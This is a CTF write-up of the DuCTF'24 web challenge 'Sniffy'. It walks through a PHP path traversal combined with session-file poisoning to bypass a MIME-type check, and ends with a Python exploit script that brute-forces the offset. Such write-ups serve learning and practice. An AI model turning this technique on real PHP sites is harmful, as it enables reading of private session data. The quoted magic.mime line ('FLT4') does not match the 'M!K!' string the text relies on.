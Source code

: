 ```yaml
---
title: "[DuCTF'24] - Sniffy"
date: 2024-07-07T20:31:52+08:00
authors:
- Bowen
tags:
- web
- php
ctfs:
- DuCTF'24
---
```


# Sniffy

This challenge consisted of a path traversal vulnerability and
something similar to a MIME type confusion attack. While I was
not able to solve this during the CTF due to a skill issue, I
decided to attempt to solve it after the CTF in hopes of being
able to better understand what's going on.

## Description

> Visit our sanctuary to hear the sounds of the Kookaburras!

The source code for the challenge can be obtained from [here](sniffy.zip).

---

## Initial Overview

While clicking around on the page, we see that the page changes
the theme based on a parameter `theme`.

![parameter](parameter.png)

If we see how the theme parameter is handled in the backend, we
can see that it changes the theme if the value is either
`dark` or `light`. However, it defaults to light if the value
is neither, and it takes in any arbitrary value.

```php
function theme() {
    return $_SESSION['theme'] == "dark" ? "dark" : "light";
}

$_SESSION['flag'] = FLAG; /* Flag is in the session here! */
$_SESSION['theme'] = $_GET['theme'] ?? $_SESSION['theme'] ?? 'light';
```

Unfortunately, my dumbass decided to turn a blind eye to this during
the competition, which turned out to be fatal mistake.

## Down the Rabbit Hole

Before we delve any further into how the `theme` parameter can
be exploited, let's take a look at possible ways to find the flag.

There's another file called `audio.php` which seems to be vulnerable
to path traversal attacks. However, it is protected by a MIME type
check.

```php
$file = 'audio/' . $_GET['f'];  // Vulnerable to path traversal (audio/../flag.php)
$mime = mime_content_type($file);  // MIME check

if (!$mime || !str_starts_with($mime, 'audio')) {  // Checks if MIMEtype is an audio
    http_response_code(403); die;
}
```

Initially, I thought that we could somehow bypass the MIME check
and force `audio.php` to view `flag.php`, as the flag was stored there.
However, that would not be possible as we are not able to control `flag.php`,
and thus would not be able to spoof its MIMEtype.

## PHP Sessions

While I was writing this, I realized that the organizers left a really
helpful hint in `index.php`, which was to say that the flag is hidden
in the session.

```php
$_SESSION['flag'] = FLAG; /* Flag is in the session here! */
```

It would have been really nice if I knew of this during the CTF, and
not after, but I found out that PHP's session data is stored on the
filesystem itself, and not as a database that spawns when PHP runs.

Now that I think about it, it certainly makes more sense to place it
as on the filesystem as a persistent file rather than and in-memory
database which is volatile and would lose all information when the
server crashes.

If you'd like to read up more about how PHP determines where the files
are saved, do check this [StackOverflow post](https://stackoverflow.com/questions/454635/where-are-session-variables-stored)
and the [PHP documentation](https://php.net/manual/en/session.configuration.php#ini.session.save-path).

## Putting Two and Two Together

Now that we know PHP session variables are stored as file, and as
the flag is also stored as a session variable as evidenced by
`$_SESSION['flag'] = FLAG;`, we can conclude that the right direction
to go is to somehow spoof the session variable file to act as a
`audio` MIMEtype.

If we look up the documentation for `mime_content_type` [here](https://www.php.net/manual/en/function.mime-content-type.php)
, we see that the MIME content type for a file is given by `magic.mime`.

When we google for `magic.mime`, we see that Apple has kindly
open-sourced their `magic.mime` file which can be found
over [here](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime.auto.html).

After doing a bit of searching, I found out that `magic.mime` is a
file full of byte patterns used to determine a file's MIMEtype.
To illustrate this, if we refer to Apple's `magic.mime` file,
there is one entry that says at offset `1080`, a file
that contains the string `M!K!` will be considered as a `audio/x-mod`.

```txt
# Magic data for KMimeMagic (originally for file(1) command)
#
# The format is 4-5 columns:
#    Column #1: byte number to begin checking from, ">" indicates continuation
#    Column #2: type of data to match
#    Column #3: contents of data to match
#    Column #4: MIME type of result
#    Column #5: MIME encoding of result (optional)

...

1080    string    FLT4       audio/x-mod
```

## Exploitation

Now that we know how to spoof MIMEtypes, let's put it into action.
Firstly, we have to figure out where the PHP session is stored.
The StackOverflow post mentioned above reveals that it is at `/tmp/sess_<ID>`.

Next, we have to somehow inject the string `M!K!` into the file
at offset `1080`. As we do not know how many bytes are written before
the `theme` variable is written into the temp file, we have to brute force
this by adding an arbitrary number of random characters before `M!K!`.

After the string gets injected, we can simply request for the file
and the flag should be inside.

## Script

```py
import requests

s = requests.Session()

for n in range(1000, 1080):  # Brute force offset
    s.get(f"https://web-sniffy-d9920bbcf9df.2024.ductf.dev/?theme={'a'*n + "M!K!"}")  # Insert M!K! after `n` characters

    # Get the contents of the file
    r = s.get(f"https://web-sniffy-d9920bbcf9df.2024.ductf.dev/audio.php?f=../../../../tmp/sess_{s.cookies['PHPSESSID']}")

    # If we don't get a 403 Unauthorized response, we got the flag
    if (r.status_code != 403):
        print("Offset found:", n)
        print(r.content)
        break
```

Flag: `DUCTF{koo-koo-koo-koo-koo-ka-ka-ka-ka-kaw-kaw-kaw!!}`
